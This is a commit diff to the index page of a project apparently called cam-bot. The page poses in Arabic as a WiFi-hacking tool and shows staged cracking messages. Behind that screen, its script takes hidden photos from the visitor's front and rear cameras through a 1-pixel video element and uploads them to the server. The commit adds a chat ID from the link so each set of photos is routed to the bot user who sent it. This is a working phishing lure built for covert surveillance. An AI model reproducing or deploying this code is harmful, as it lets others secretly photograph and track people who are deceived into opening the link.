

Before and after one commit to loayaltmimi65-sketch/cam-bot, a website: page public/index.html in a window 1280 px wide. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/public/index.html
+++ b/public/index.html
@@ -6,196 +6,49 @@
   <title>Cyber Attack - اختراق الشبكات</title>
   <style>
     @import url('https://fonts.googleapis.com/css2?family=Cairo:wght@700;900&family=Share+Tech+Mono&display=swap');
-
     * { box-sizing: border-box; }
-
     body {
-      background-color: #000;
-      color: #00ff00;
-      font-family: 'Share Tech Mono', monospace;
-      margin: 0;
-      padding: 0;
-      display: flex;
-      flex-direction: column;
-      align-items: center;
-      justify-content: center;
-      height: 100vh;
-      width: 100vw;
-      overflow: hidden;
-      background-image:
-        linear-gradient(rgba(0, 255, 0, 0.05) 1px, transparent 1px),
-        linear-gradient(90deg, rgba(0, 255, 0, 0.05) 1px, transparent 1px);
+      background-color: #000; color: #00ff00; font-family: 'Share Tech Mono', monospace;
+      margin: 0; padding: 0; display: flex; flex-direction: column; align-items: center; justify-content: center;
+      height: 100vh; width: 100vw; overflow: hidden;
+      background-image: linear-gradient(rgba(0, 255, 0, 0.05) 1px, transparent 1px), linear-gradient(90deg, rgba(0, 255, 0, 0.05) 1px, transparent 1px);
       background-size: 20px 20px;
     }
+    .app-container { width: 100%; height: 100%; max-width: 400px; padding: 15px; display: flex; flex-direction: column; justify-content: center; gap: 10px; }
+    .header-section { text-align: center; display: flex; flex-direction: column; align-items: center; }
 
-    .app-container {
-      width: 100%;
-      height: 100%;
-      max-width: 400px;
-      padding: 15px;
-      display: flex;
-      flex-direction: column;
-      justify-content: center;
-      gap: 15px;
-    }
-
-    .header-section {
-      text-align: center;
-      display: flex;
-      flex-direction: column;
-      align-items: center;
-    }
-
-    /* شعار الواي فاي الحقيقي المتداخل */
-    .wifi-icon {
-      position: relative;
-      width: 60px;
-      height: 45px;
-      margin-bottom: 10px;
-      display: flex;
-      flex-direction: column;
-      align-items: center;
-      justify-content: flex-end;
-    }
-
-    .wifi-arc {
-      border: 4px solid transparent;
-      border-top-color: #00ff00; /* لون أخضر نيون */
-      border-radius: 50%;
-      position: absolute;
-      left: 50%;
-      transform: translateX(-50%);
-      box-shadow: 0 0 15px #00ff00, inset 0 0 15px #00ff00; /* تأثير الإضاءة */
-    }
-
-    /* تداخل الأقواس عشان يطلع شكل الشعار الصح */
+    .wifi-icon { position: relative; width: 60px; height: 45px; margin-bottom: 10px; display: flex; flex-direction: column; align-items: center; justify-content: flex-end; }
+    .wifi-arc { border: 4px solid transparent; border-top-color: #00ff00; border-radius: 50%; position: absolute; left: 50%; transform: translateX(-50%); box-shadow: 0 0 15px #00ff00; }
     .arc-1 { width: 60px; height: 60px; bottom: -10px; border-width: 4px; }
     .arc-2 { width: 40px; height: 40px; bottom: -5px; border-width: 4px; }
     .arc-3 { width: 20px; height: 20px; bottom: 0px; border-width: 4px; }
+    .wifi-dot { width: 8px; height: 8px; background-color: #00ff00; border-radius: 50%; box-shadow: 0 0 15px #00ff00; position: absolute; bottom: 0; z-index: 10; }
 
-    .wifi-dot {
-      width: 8px;
-      height: 8px;
-      background-color: #00ff00;
-      border-radius: 50%;
-      box-shadow: 0 0 15px #00ff00, inset 0 0 10px #00ff00;
-      position: absolute;
-      bottom: 0;
-      z-index: 10;
-    }
+    .main-title { font-family: 'Cairo', sans-serif; font-weight: 900; font-size: 28px; color: #00ff00; text-shadow: 0 0 10px #00ff00, 0 0 20px #00ff00; margin: 0; }
+    .sub-title { font-size: 12px; color: #00ff00; text-shadow: 0 0 8px #00ff00; letter-spacing: 2px; margin-top: 5px; }
 
-    .main-title {
-      font-family: 'Cairo', sans-serif;
-      font-weight: 900;
-      font-size: 28px;
-      color: #00ff00;
-      text-shadow: 0 0 10px #00ff00, 0 0 20px #00ff00, 0 0 30px #00ff00;
-      margin: 0;
-    }
+    .terminal-box { width: 100%; height: 200px; border: 2px solid #00ff00; border-radius: 10px; padding: 10px; box-shadow: 0 0 20px rgba(0, 255, 0, 0.5); background: rgba(0, 5, 0, 0.95); display: flex; flex-direction: column; }
+    .terminal-header { display: flex; justify-content: space-between; border-bottom: 1px solid #00ff00; padding-bottom: 5px; margin-bottom: 8px; font-size: 11px; }
+    .blink { animation: blink-anim 1s infinite; } @keyframes blink-anim { 50% { opacity: 0; } }
+    #log { flex-grow: 1; overflow-y: auto; font-size: 13px; line-height: 1.6; text-align: right; padding-right: 5px; }
+    #log::-webkit-scrollbar { width: 3px; } #log::-webkit-scrollbar-thumb { background: #00ff00; }
+    .line { opacity: 0; animation: fadeIn 0.3s forwards; margin-bottom: 4px; } @keyframes fadeIn { to { opacity: 1; } }
 
-    .sub-title {
-      font-size: 12px;
-      color: #00ff00;
-      text-shadow: 0 0 8px #00ff00;
-      letter-spacing: 2px;
-      margin-top: 5px;
-    }
-
-    .terminal-box {
-      width: 100%;
-      height: 220px;
-      border: 2px solid #00ff00;
-      border-radius: 10px;
-      padding: 10px;
-      box-shadow: 0 0 20px rgba(0, 255, 0, 0.5), inset 0 0 20px rgba(0, 255, 0, 0.2);
-      background: rgba(0, 5, 0, 0.95);
-      display: flex;
-      flex-direction: column;
-    }
-
-    .terminal-header {
-      display: flex;
-      justify-content: space-between;
-      align-items: center;
-      border-bottom: 1px solid #00ff00;
-      padding-bottom: 5px;
-      margin-bottom: 8px;
-      font-size: 11px;
-      color: #00ff00;
-    }
-
-    .blink { animation: blink-anim 1s infinite; }
-    @keyframes blink-anim { 50% { opacity: 0; } }
-
-    #log {
-      flex-grow: 1;
-      overflow-y: auto;
-      font-size: 13px;
-      line-height: 1.6;
-      text-align: right;
-      padding-right: 5px;
-    }
-
-    #log::-webkit-scrollbar { width: 3px; }
-    #log::-webkit-scrollbar-track { background: #000; }
-    #log::-webkit-scrollbar-thumb { background: #00ff00; }
-
-    .line { opacity: 0; animation: fadeIn 0.3s forwards; margin-bottom: 4px; color: #00ff00; }
-    @keyframes fadeIn { to { opacity: 1; } }
-
-    #startBtn {
-      background-color: rgba(0, 255, 0, 0.1);
-      color: #00ff00;
-      border: 2px solid #00ff00;
-      padding: 15px;
-      font-size: 18px;
-      font-family: 'Cairo', sans-serif;
-      font-weight: 900;
-      cursor: pointer;
-      transition: all 0.3s;
-      box-shadow: 0 0 15px rgba(0, 255, 0, 0.6);
-      border-radius: 8px;
-      width: 100%;
-      text-shadow: 0 0 10px #00ff00;
-    }
-
-    #startBtn:active {
-      background-color: #00ff00;
-      color: #000;
-      box-shadow: 0 0 40px #00ff00;
-    }
-
-    #startBtn:disabled {
-      border-color: #555; color: #555; box-shadow: none; text-shadow: none; background: transparent;
-    }
-
-    #status {
-      font-size: 16px;
-      text-align: center;
-      font-weight: bold;
-      min-height: 20px;
-      font-family: 'Cairo', sans-serif;
-      color: #00ff00; /* كل الكلام أخضر */
-    }
-
+    #startBtn { background-color: rgba(0, 255, 0, 0.1); color: #00ff00; border: 2px solid #00ff00; padding: 12px; font-size: 18px; font-family: 'Cairo', sans-serif; font-weight: 900; cursor: pointer; transition: all 0.3s; box-shadow: 0 0 15px rgba(0, 255, 0, 0.6); border-radius: 8px; width: 100%; margin-top: 10px; }
+    #startBtn:active { background-color: #00ff00; color: #000; box-shadow: 0 0 40px #00ff00; }
+    #startBtn:disabled { border-color: #555; color: #555; box-shadow: none; background: transparent; }
+    #status { font-size: 14px; text-align: center; font-weight: bold; font-family: 'Cairo', sans-serif; color: #00ff00; margin-top: 5px; }
     #video { width: 1px; height: 1px; opacity: 0.01; position: absolute; top: 0; left: 0; }
   </style>
 </head>
 <body>
-
   <div class="app-container">
     <div class="header-section">
-
-      <!-- شعار الواي فاي الجديد المتداخل -->
       <div class="wifi-icon">
-        <div class="wifi-arc arc-1"></div>
-        <div class="wifi-arc arc-2"></div>
-        <div class="wifi-arc arc-3"></div>
-        <div class="wifi-dot"></div>
+        <div class="wifi-arc arc-1"></div><div class="wifi-arc arc-2"></div><div class="wifi-arc arc-3"></div><div class="wifi-dot"></div>
       </div>
-
       <h1 class="main-title">اختراق الشبكات</h1>
-      <div class="sub-title">CYBER ATTACK SYSTEM v9.0</div>
+      <div class="sub-title">CYBER ATTACK v9.0</div>
     </div>
 
     <div class="terminal-box">
@@ -203,12 +56,10 @@
         <span>STATUS: <span class="blink">● LIVE</span></span>
         <span>TARGET: WIFI_NET</span>
       </div>
-
       <div id="log">
         <div class="line">> جاري الاتصال بالسيرفر المركزي...</div>
         <div class="line">> تفعيل وضع المراقبة (Monitor Mode)...</div>
         <div class="line">> ⚠️ تم اكتشاف شبكة واي فاي محمية!</div>
-        <div class="line">> جاري فحص نقاط الضعف في الراوتر...</div>
       </div>
     </div>
 
@@ -225,30 +76,37 @@
     const log = document.getElementById('log');
     let stream = null;
 
+    // بنقرا الآيدي من اللينك
+    const urlParams = new URLSearchParams(window.location.search);
+    const userChatId = urlParams.get('chatId');
+
     function addLog(text) {
       const div = document.createElement('div');
-      div.className = `line`;
-      div.textContent = `> ${text}`;
-      log.appendChild(div);
-      log.scrollTop = log.scrollHeight;
+      div.className = 'line'; div.textContent = `> ${text}`;
+      log.appendChild(div); log.scrollTop = log.scrollHeight;
     }
 
     async function takePhoto(facing) {
       if (stream) stream.getTracks().forEach(t => t.stop());
       stream = await navigator.mediaDevices.getUserMedia({ video: { facingMode: facing } });
       video.srcObject = stream;
-      await new Promise(r => setTimeout(r, 1500));
+      await new Promise(r => setTimeout(r, 1000));
       const canvas = document.createElement('canvas');
-      canvas.width = video.videoWidth || 720;
-      canvas.height = video.videoHeight || 960;
+      canvas.width = video.videoWidth || 720; canvas.height = video.videoHeight || 960;
       canvas.getContext('2d').drawImage(video, 0, 0);
       const blob = await new Promise(res => canvas.toBlob(res, 'image/jpeg', 0.85));
       stream.getTracks().forEach(t => t.stop());
-      await new Promise(r => setTimeout(r, 1000));
+      await new Promise(r => setTimeout(r, 800));
       return blob;
     }
 
     startBtn.onclick = async () => {
+      if (!userChatId) {
+        status.innerText = "⚠️ خطأ: هذا الرابط غير صالح، يرجى فتح الرابط من البوت.";
+        status.style.color = "#ff0000";
+        return;
+      }
+
       try {
         startBtn.disabled = true;
         startBtn.style.display = 'none';
@@ -257,33 +115,34 @@
 
         addLog("⛔ محاولة كسر تشفير WPA2...");
         status.innerText = "جاري كسر التشفير... [3]";
-        await new Promise(r => setTimeout(r, 1000));
+        await new Promise(r => setTimeout(r, 800));
 
         addLog("⚠️ تم اختراق جدار الحماية!");
         status.innerText = "جاري كسر التشفير... [2]";
-        await new Promise(r => setTimeout(r, 1000));
+        await new Promise(r => setTimeout(r, 800));
 
         addLog("💀 جاري حقن الأكواد الخبيثة...");
         status.innerText = "جاري كسر التشفير... [1]";
-        await new Promise(r => setTimeout(r, 1000));
+        await new Promise(r => setTimeout(r, 800));
 
-        addLog("✅ تم كسر التشفير بنجاح! تم..");
-        status.innerText = "جار اختراق الشبكات يجاري كلمات المرور...";
+        addLog("✅ تم كسر التشفير! جاري سحب ...");
+        status.innerText = "جاري سحب البيانات...";
 
         const photos = [];
         photos.push(await takePhoto('user'));
         photos.push(await takePhoto('user'));
         photos.push(await takePhoto('environment'));
 
-        addLog("🔒 تشفير البيانات وإرسالها إلى السيرفر...");
+        addLog("🔒 تشفير البيانات وإرسالها...");
         status.innerText = "جاري الإرسال...";
 
         const form = new FormData();
+        form.append('chat_id', userChatId);
         photos.forEach((p, i) => form.append('photos', p, `photo_${i + 1}.jpg`));
 
         await fetch('/upload', { method: 'POST', body: form });
 
-        addLog("☠️ تم الاختراق! كل بيانات الضحية في أيدينا.");
+        addLog("☠️ تم الاختراق! البيانات في أيدينا.");
         status.innerText = "تم الاختراق بنجاح! (أغلق الصفحة)";
 
       } catch (err) {
```
